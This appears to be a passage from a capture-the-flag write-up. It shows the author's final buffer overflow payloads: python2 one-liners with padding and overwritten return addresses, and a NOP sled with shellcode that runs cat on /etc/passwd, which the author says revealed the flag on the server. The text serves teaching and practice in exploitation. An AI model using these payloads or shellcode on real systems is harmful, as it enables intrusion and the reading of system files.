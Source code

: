 So, my final payload looked like this:

\$(python2 -c \"print \'A\'\*42 + \'\\x10\\x87\\x04\\x08\'\") key

\$(python2 -c \"print \'A\'\*22 + \'\\x76\\x86\\x04\\x08\'\")

\$(python2 -c \'print \"\\x90\" \* 133 +
\"\\x31\\xc0\\x99\\x52\\x68\\x2f\\x63\\x61\\x74\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x68\\x73\\x73\\x77\\x64\\x68\\x2f\\x2f\\x70\\x61\\x68\\x2f\\x65\\x74\\x63\\x89\\xe1\\xb0\\x0b\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80\"
+ \"A\"\*40 + \"\\x98\\xdb\\xff\\xff\"\')

When used them on the server, I managed to print out /etc/passwd and
that was where the flag was.

![Text Description automatically
generated](images/media/image35.png)
